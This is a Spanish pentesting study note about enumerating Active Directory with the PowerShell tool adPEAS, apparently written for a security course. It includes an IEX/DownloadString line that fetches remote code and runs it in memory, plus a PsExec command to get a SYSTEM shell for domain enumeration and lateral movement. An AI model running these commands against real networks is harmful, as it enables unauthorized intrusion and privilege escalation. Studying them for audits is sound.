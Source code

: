 # ADPeas

Tags: #AD #ADPeas

ADPeas es una herramienta en PowerShell diseñada para enumerar y analizar entornos de Active Directory, facilitando la identificación de configuraciones inseguras, relaciones de confianza, permisos excesivos y posibles vectores de escalación de privilegios. Es ampliamente utilizada en auditorías y pruebas de seguridad por su capacidad para automatizar la recolección de información clave y detectar vulnerabilidades en dominios Windows.

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

## Saliendo del contexto de usuario local

```bash 
# Esto se hace cuando el usuario local no puede interactuar con el dominio y por lo tanto no podría ejecutar ADPeas u otras herramientas en Powershell para enumerar el dominio. 


PS C:\Windows\system32> net group /domain         # Enumerar el dominio 
The request will be processed at a domain controller for domain domain.com.   # Sale este error 

System error 5 has occurred.

Access is denied.
```

* [PsExec64.exe](https://github.com/Spartan-Cybersecurity/CPAD-Tools)

```bash 
❯ .\PsExec64.exe -i -s cmd.exe       # Emigrar en una sesion RDP al usuario 'NT AUTHORITY SYSTEM' para asi poder interactura con el dominio. 
```

* [Intro a sysinternals](https://books.spartan-cybersec.com/cpad/introduccion-a-la-evasion-de-defensas/introduccion-a-sysinternals)

```bash 
'PsExec' es una herramienta ligada a la suite de Sysinternals de Microsoft y permite la ejecución de procesos en sistemas remotos. Es particularmente útil para administradores de sistemas, pero también es conocido por ser utilizado por atacantes o pentesters para moverse lateralmente a través de una red.

1. Contexto de Autenticación: Cuando interactúas con Directorio Activo (AD), lo haces a través de un contexto de autenticación, que esencialmente dicta qué derechos y permisos tiene el usuario o proceso actual. Si estás ejecutando comandos en una máquina comprometida con un contexto local (por ejemplo, una shell reversa que no tiene un token de autenticación para AD), es posible que no puedas consultar o interactuar con el AD aunque estés en un dominio.
    
2. Cambiar Contexto: Usando 'PsExec', puedes ejecutar comandos o programas en el contexto de otro usuario, o incluso en el contexto de SYSTEM si tienes los permisos necesarios. Al hacerlo, estás esencialmente "cambiando" tu contexto de autenticación, lo que puede darte los derechos necesarios para interactuar con AD.

Notas:
	1. Aunque no es _estrictamente necesario_ usar 'PsExec' para salir del contexto de usuario local y enumerar AD (hay otras técnicas y herramientas que pueden lograr lo mismo), 'PsExec' es una herramienta versátil que permite a los atacantes y pentesters cambiar de contexto de autenticación y moverse lateralmente a través de una red. Por lo tanto, es una herramienta útil en escenarios donde se necesita ampliar el alcance o cambiar el contexto para interactuar con AD.
```

